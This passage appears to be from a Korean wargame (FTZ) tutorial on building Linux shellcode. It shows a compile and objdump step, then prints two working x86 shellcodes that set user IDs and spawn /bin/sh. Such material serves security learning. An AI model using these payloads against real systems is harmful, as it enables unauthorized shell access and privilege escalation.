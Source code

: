 ``` c
                "int $0x80              \n\t"
        );
}
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/18.png" | relative_url }}' alt='relative'>  

-> 어셈블리어 컴파일  

``` bash
gcc -static -o realsh realsh.c
```

-> 기계어 확인  

``` bash
objdump -M intel -d realsh | grep \<main\> -A 30
```

<img data-action="zoom" src='{{ "assets/ftz/shellcode/19.png" | relative_url }}' alt='relative'>  


-> 39 byte 쉘코드 획득  

``` bash
\x31\xdb\x66\xbb\x1c\x0c\x89\xd9\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

-> 35 byte 쉘코드 획득  

xor 연산이 없는 쉘코드 (xor %ebx, %ebx, xor %eax, %eax)  

``` bash
\x66\xbb\x1c\x0c\x89\xd9\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80
```

